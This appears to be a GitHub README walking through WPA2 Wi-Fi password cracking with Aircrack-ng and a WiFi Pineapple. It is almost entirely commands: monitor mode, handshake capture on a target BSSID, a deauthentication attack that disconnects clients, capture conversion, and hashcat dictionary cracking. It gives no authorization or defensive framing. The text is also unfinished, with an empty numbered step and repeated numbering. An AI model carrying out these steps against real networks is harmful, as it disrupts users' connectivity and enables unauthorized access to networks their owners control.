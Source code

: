 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

  5. 


<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
